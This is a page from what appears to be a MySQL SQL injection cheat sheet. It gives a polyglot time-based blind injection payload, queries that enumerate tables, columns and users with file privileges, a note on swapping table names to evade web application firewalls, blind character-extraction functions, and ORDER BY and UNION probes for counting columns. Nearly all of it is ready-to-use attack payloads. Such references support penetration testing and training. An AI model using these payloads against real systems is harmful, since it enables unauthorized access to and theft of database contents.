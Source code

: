 ## All injection

```sql
SELECT * FROM some_table WHERE double_quotes = "IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/"
```

from [https://labs.detectify.com/2013/05/29/the-ultimate-sql-injection-payload/](https://labs.detectify.com/2013/05/29/the-ultimate-sql-injection-payload/)

## Flow

Remember that in "modern" versions of **MySQL** you can substitute "_**information_schema.tables**_" for "_**mysql.innodb_table_stats**_**"** (This could be useful to bypass WAFs).

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema=database();#Get name of the tables
SELECT column_name FROM information_schema.columns WHERE table_name="<TABLE_NAME>"; #Get name of the columns of the table
SELECT <COLUMN1>,<COLUMN2> FROM <TABLE_NAME>; #Get values
SELECT user FROM mysql.user WHERE file_priv='Y'; #Users with file privileges
```

### **Only 1 value**

- `group_concat()`
- `Limit X,1`

### **Blind one by one**

- `substr(version(),X,1)='r'` or `substring(version(),X,1)=0x70` or `ascii(substr(version(),X,1))=112`
- `mid(version(),X,1)='5'`

### **Blind adding**

- `LPAD(version(),1...lenght(version()),'1')='asd'...`
- `RPAD(version(),1...lenght(version()),'1')='asd'...`
- `SELECT RIGHT(version(),1...lenght(version()))='asd'...`
- `SELECT LEFT(version(),1...lenght(version()))='asd'...`
- `SELECT INSTR('foobarbar', 'fo...')=1`

## Detect number of columns

Using a simple ORDER

```
order by 1
order by 2
order by 3
...
order by XXX

UniOn SeLect 1
UniOn SeLect 1,2
UniOn SeLect 1,2,3
...
```
